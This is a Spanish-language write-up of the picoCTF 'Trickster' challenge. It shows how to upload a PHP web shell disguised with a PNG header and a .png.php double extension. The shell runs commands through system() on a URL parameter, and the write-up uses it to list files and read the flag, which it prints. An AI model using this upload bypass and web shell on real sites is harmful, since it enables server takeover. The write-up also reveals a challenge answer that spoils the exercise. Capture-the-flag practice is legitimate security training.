 # Trickster

## Description

I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:51380/)!

## Hints

* (None)

## Solución

Ingresamos al sitio web que nos proporcionan, una vez dentro, nos muestra que se pueden subir archivos **PNG** ósea imágenes, cuando intentamos subir una imagen, no nos muestra nada, entonces para continuar hacemos lo siguiente:

En un archivo de texto escribimos el siguiente código y lo guardamos como archivo **PHP**:

```php
PNG
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

Después en una terminal de ubuntu, ingresamos los siguientes comandos para transformar nuestro archivo de **.PHP** a **.PNG**:
**Nota importante:}** El archivo debe estar en la carpeta correspondiente de linux.
```
nano Trickster.php
cat Trickster.php

mv Trickster.php Trickster.png.php
cat Trickster.png.php
```

Una vez realizado esto, nos volvemos a dirigir a nuestro sitio web y subimos nuestro archivo **PNG.PHP** al link que tenemos.
![[Pasted image 20250403101432.png]]

Una vez subido **el .PNG.PHP** al sitio web, al final del link ingresamos: **/uploads/Trickster.png.php?cmd=pwd** 
**Nota importante:** Se debe poner el nombre en el que se guardo el archivo.
```
http://atlas.picoctf.net:51380/uploads/Trickster.png.php?cmd=pwd

PNG /var/www/html/uploads
```

En el link lo volvemos a modificar al final pero esta vez solo agregamos: **ls ..**
```
http://atlas.picoctf.net:51380/uploads/Trickster.png.php?cmd=ls ..

PNG HFQWKODGMIYTO.txt index.php instructions.txt robots.txt uploads
```

De lo que nos salió en la pantalla copiamos el primer texto que tiene terminación: **HFQWKODGMIYTO.txt** y lo agregamos al final, también se agrega un cat para que nos muestre nuestra respectiva flag:
```
http://atlas.picoctf.net:51380/uploads/Trickster.png.php?cmd=cat%20../HFQWKODGMIYTO.txt

PNG /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17} */
```

### Respuesta: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}